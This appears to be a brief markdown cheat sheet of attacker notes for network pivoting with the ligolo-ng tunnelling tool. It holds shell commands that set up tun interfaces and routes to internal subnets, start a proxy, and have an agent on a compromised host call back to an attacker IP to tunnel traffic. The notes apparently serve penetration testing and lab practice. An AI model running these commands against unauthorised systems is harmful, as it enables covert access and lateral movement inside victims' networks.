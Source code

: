 # Attacker


## setup network
```shell
# enter root mode
sudo su

# create interface
ip tuntap add user root mode tun ligolo
ip link set ligolo up

# every pivot need a new interface
ip tuntap add user root mode tun ligolo2
ip link set ligolo2 up


# create network to be routed on the interface created
ip route add 172.16.1.0/24 dev ligolo

# create ip to be routed
sudo ip route add 172.16.2.101 dev ligolo2

```

## ligolo proxy
```
# ligolo port is 11601 by default 
# from attacker : start proxy
./proxy -selfcert 

# from c2 : connect to your machine
./agent -connect 10.10.17.23:11601  -ignore-cert

# from attacker: select agent and start tunneling on a interface created
session 1
start --tun ligolo


# for pivot more than 1 hop you can select a session then listen on it 
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list

```


## ligolo agent reverse connect

[Bind](https://github.com/nicocha30/ligolo-ng/wiki/Bind)
